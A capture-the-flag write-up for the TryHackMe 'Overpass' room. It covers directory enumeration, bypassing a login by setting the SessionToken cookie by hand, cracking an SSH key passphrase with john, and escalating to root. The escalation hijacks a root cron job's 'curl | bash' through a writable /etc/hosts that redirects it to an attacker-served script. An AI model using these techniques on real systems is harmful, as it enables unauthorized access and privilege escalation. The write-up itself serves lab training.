 # Overpass WriteUp https://tryhackme.com/room/overpass by g0at

## 1.Scanning with nmap for open ports and services

![](1)
* * * 
we see that port 80 is open

![](2)

we go to the downloads page and find the source code to the password manager, which is written in Go and a build script

![](3)

I couldn't find anything useful in it, so we'll leave it for now

## 2.Brute forcing directories

We're gonna find some directories with [dirsearch](https://github.com/maurosoria/dirsearch)

`python3 dirsearch.py -u http://10.10.210.84/ -e html,js,php`

![](4.png)

we navigate to `/admin/?/login`

![](5.png)

trying to log in with weak credentials, such as `admin:admin`, failed

![](6.png)

after some messing around, I finally notice some stuff in `login.js`

![](7.png)

there is a function for data encoding and making the POST request, but the one we're interested in is this:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}

```

especially these last few lines:
```js
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

so, when we try to log in with wrong credentials,the response we get is `"Incorrect credentials"`, so nothing happens  
but if we get the right credentials, it sets the `SessionToken` cookie to the value `statusOrCookie` and points us to `/admin`  

What is we try to manually set the cookie to some status value?  
```js
Cookies.set("SessionToken",400)
```
With the cookie set, we navigate to the `/admin` page  
![](8.png)

and as you can see, we get a RSA private key

## 3. SSHing into the machine

We save the key to `id_rsa`, now it's time to find the passphrase  
First, we use `ssh2john.py`, which you can download from github to generate the hash, and we save it to `id_rsa.hashes`  

![](9.png)

Then we use john for cracking the passphrase  

![](10.png)

We login using the key as `james`  
![](11.png)

Then we get the flag
![](12.png)

* * * 
## 3.Escalating our privileges

First thing we notice is a `todo.txt` with the following content.  
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

We get some interesting information from this:  
* There is some kind of password in the password manager they wrote
* The encryption is weak
* There is some kind of automated build script running

Ok, remember the source code we got from the first step? There is some interesting stuff in it:  
```go
func main() {
	credsPath, err := homedir.Expand("~/.overpass")
	if err != nil {
		fmt.Println("Error finding home path:", err.Error())
	}
	//Load credentials
    passlist, status := loadCredsFromFile(credsPath)
    ...
```
The credentials are stored in `~/.overpass`  

![](13.png)

There is another interesting function in the source code: 
```go
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```  
So it seems they use `ROT47`, we use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt it  
![](14.png)
* * *
Moving on, we try to find the automate build script, so we look in `/etc` for cron jobs and we find one: 

![](15.png)

It seems like is runs the same script we found on the `/downloads` page as **root**.  
It also runs every minute.  
```bash
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

Notice in the cron job that is makes a get request with **curl** to `overpass.thm/downloads/src/buildscript.sh`

* * * 

Let's check the `/etc/hosts` file  

![](16.png)

Nice! It seems that we have write permission  
Let's change the ip of `overpass.thm` to our VPN ip
(you can find it using `ip a`, or from the acces page on tryhackme)  

We open `/etc/hosts` using **vim** and we write out ip address
![](17.png)

* * *

Alright, since the cron job requests from `curl overpass.thm/downloads/src/buildscript.sh | bash` we have to make directory and write our build script with the following content:
```bash
cat /root/root.txt > /home/james/stuff.txt
```

![](18.png)

Starting our simple web server:

![](19.png)

And we get the flag  

![](20.png)